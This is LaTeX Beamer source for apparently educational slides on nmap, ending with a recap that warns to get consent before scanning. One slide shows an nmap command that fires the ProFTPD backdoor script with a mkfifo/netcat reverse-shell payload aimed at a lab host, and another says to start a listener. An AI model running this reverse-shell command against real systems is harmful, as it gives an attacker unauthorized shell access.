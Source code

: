 \documentclass[aspectratio=169,xcolor=dvipsnames]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Scripts}

    \begin{lstlisting}
 root@kali $\#$ nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 192.168.56.1 4444 >/tmp/f" 192.168.56.19
    \end{lstlisting}

    Create a remote connection back to the attacker's machine.

    \begin{block}{Heads-up}
        \begin{center}
            You will need to have a \texttt{netcat} listener at port 4444 in your host machine. In Kali linux, you can use \texttt{nc -lvnp 4444} in a different terminal.
        \end{center}
    \end{block}  
\end{frame}

\section{Recap}

\begin{frame}[fragile]
    \frametitle{Warning}

    \begin{alertblock}{Warning}
        \begin{center}
            Before scanning a network, always ask for consent.
        \end{center}
    \end{alertblock}  

\end{frame}

\begin{frame}[fragile]
    \frametitle{Takeways}

    \begin{exampleblock}{Key Takeaway}
        \begin{center}
            \texttt{nmap} is a network scanner.
        \end{center}
    \end{exampleblock}

    \pause

    \begin{exampleblock}{Key Takeaway}
        \begin{center}
            \texttt{nmap} allows us to know how the network really is as opposed to how it should be.
        \end{center}
    \end{exampleblock}

    \pause

    \begin{exampleblock}{Key Takeaway}
        \begin{center}
            Methodology: From a broad perspective to the details.
        \end{center}
    \end{exampleblock}

\end{frame}
\end{document}
